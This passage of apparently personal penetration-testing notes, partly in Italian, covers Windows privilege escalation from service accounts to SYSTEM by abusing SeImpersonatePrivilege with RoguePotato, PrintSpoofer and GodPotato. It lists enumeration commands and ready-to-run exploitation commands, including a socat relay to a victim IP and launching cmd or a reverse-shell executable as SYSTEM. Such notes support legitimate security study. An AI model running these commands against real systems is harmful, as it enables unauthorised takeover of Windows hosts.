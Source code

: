  - Exploitation:
	 - [https://github.com/antonioCoco/RoguePotato)](https://github.com/antonioCoco/RoguePotato)
		- on attacker machine:
			- `socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999`
		- on victim machine:
			- `.\RoguePotato.exe -r YOUR_IP -e "command" -l 9999`

### PrintSpoofer

PE technique from `LOCAL/NETWORK SERVICE` to `SYSTEM` by abusing `SeImpersonatePrivilege` privilege on Windows 10 and Windows Server 2016/2019. It can considerated as a better alternative to [Rogue Potato](#RoguePotato). It isn't a CVE, it is a misconfiguration.

Vulnerability identikit:
- privileges: `SeImpersonatePrivilege` o `SeAssignPrimaryTokenPrivilege`
- Vulnerable Windows versions:
	- Windows 10 (**version <1607**)
	- Windows Server 2016
	- Windows Server 2019

Enumeration:
- privileges:
	- `whoami /priv`
- system:
	- `systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"`

Exploitation:
- [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer):
	- `.\PrintSpoofer.exe -i -c cmd` oppure `.\PrintSpoofer.exe -i -c "</absolute/path/to/reverse.exe>"`

### GodPotato

Vulnerability identikit:
- privileges: `SeImpersonatePrivilege`
- Vulnerable Windows versions:
	- Windows8 (da *readme*)
	- Windows 11 (da *readme*)
	- Windows Server 2012 (da *readme*)
	- Windows Server 2022 (da *readme*)
	- Windows 10 Pro 10.0.18362 con KB4540673 (last hotfix)

Enumeration:
- privileges:
	- `whoami /priv`
- hotfixes installed:
	- `wmic qfe list`
- .NET version installed:
	- (*powershell*) `Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version`
	- (*cmd*) `reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s`
